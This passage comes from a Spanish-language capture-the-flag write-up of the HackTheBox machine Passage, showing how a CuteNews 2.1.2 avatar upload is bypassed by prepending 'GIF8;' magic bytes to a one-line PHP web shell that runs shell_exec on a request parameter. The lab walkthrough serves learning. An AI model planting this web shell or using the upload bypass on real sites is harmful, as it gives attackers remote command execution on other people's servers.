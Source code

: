 Tenemos un login panel, con una versión `2.1.2` del gestor de noticias `CuteNews`.

* [Wikipedia de **CuteNews**](https://es.wikipedia.org/wiki/Cutenews).

Probando credenciales por default no obtenemos respuesta válida, también podemos registrarnos:

![206page80_cutenews_reg](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_reg.png)

Obtenemos:

![206page80_cutenews_logIN](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_logIN.png)

Buscando por internet existen varios exploits que se aprovechan de una opción que nos permite subir un avatar (imagen) a nuestro perfil para ejecutar comandos en el sistema. Por lo visto el gestor se guía por los [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) para validar el tipo de archivo. Así que si subimos un archivo `.php` así sin más, no nos lo va a dejar subir, pero si al archivo `.php` le agregamos al inicio la cadena `GIF 8;`, ahora interpretara que el tipo de archivo es un `GIF` (:

* [Me guie de este artículo, el cual explica detalladamente cada paso](https://musyokaian.medium.com/cutenews-2-1-2-remote-code-execution-vulnerability-450f29673194).

...

## Explotación [#](#explotacion) {#explotacion}

En el dashboard damos clic en `Personal option` y llegamos acá:

![206page80_cutenews_hereupavatar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_hereupavatar.png)

Creamos archivo malicioso:

```bash
–» cat ejeje.php 
<?php $command=shell_exec($_REQUEST['xmd']); echo $command; ?>
–» file ejeje.php 
ejeje.php: PHP script, ASCII text
```

Modificamos los `magic bytes`:

```bash
–» cat ejeje.php 
GIF8;
<?php $command=shell_exec($_REQUEST['xmd']); echo $command; ?>
–» file ejeje.php 
ejeje.php: GIF image data 16188 x 26736
```

Subimos y guardamos cambios:

![206page80_cutenews_upavatardone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_upavatardone.png)

Los avatars quedan guardados en la ruta `/uploads`:

![206page80_cutenews_uploadsroute](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_uploadsroute.png)

